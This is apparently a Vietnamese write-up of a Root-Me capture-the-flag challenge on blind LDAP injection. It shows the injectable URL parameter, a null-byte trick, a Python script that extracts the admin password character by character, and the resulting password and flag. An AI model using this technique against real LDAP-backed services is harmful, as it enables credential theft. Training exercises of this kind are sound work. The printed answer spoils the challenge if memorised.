 Điểm inject khá dễ nhìn, đó là đường dẫn `/?action=dir&search=a`

Nguyên lí inject ở đây nói chung giống hệt chall `mysql injection blind` và `nosql injection blind`, chỉ khác về cú pháp query. Lưu ý 1 điểm: thay vì dùng comment như `mysql`, ta dùng null bytes(`%00`) ở cuối URL để cắt toàn bộ phần query mặc định của server đi

Code python để lấy password:

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

password = ''
u = 'http://challenge01.root-me.org/web-serveur/ch26/?action=dir&search=admin*)(password='

while True:
    for c in string.printable:
        if c not in ['*', '+', '.', '?', '|', '#', '&', '$']:
            payload = '%s' % (password + c)
            r = requests.get(u + payload + '*))%00')
            if 'admin' in r.text:
                print("Found one more char : %s" % (password+c))
                password += c

```



password: `dsy365gDZerzO94`

Lưu ý thứ 2: vì 1 lí do nào đó mà flag phải để hết chữ cái ở lowercase, dựa theo [note](https://www.root-me.org/?page=forum&id_thread=8940&lang=en)

